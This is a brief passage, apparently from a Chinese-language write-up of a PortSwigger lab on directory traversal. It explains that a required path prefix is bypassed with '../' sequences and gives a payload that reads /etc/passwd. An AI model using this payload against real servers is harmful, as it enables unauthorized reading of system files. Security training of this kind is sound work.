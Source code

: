 服务器检测输入的路径中是否含有固定开头/var/www/images/



依旧可以使用../../绕过

payload:

```javascript
filename=/var/www/images/../../../etc/passwd
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/目录遍历/images/250EAA96102C4B2ABC01E11048D77B99clipboard.png)

